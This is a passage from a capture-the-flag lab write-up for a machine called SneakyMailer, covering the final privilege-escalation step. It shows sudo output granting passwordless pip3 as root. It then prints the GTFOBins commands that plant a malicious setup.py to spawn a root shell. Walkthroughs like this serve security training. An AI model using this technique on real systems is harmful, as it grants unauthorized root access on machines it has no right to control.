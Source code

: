 We can then grab the user flag.

### Sudo pip3

We can enumerate the user's `sudo` privileges:

```
low@sneakymailer:/$ sudo -l
sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
Matching Defaults entries for low on sneakymailer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User low may run the following commands on sneakymailer:
    (root) NOPASSWD: /usr/bin/pip3
```

Based on GTFOBins, we just need to run these commands:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip3 install $TF
```

This would give us a root shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

Rooted!
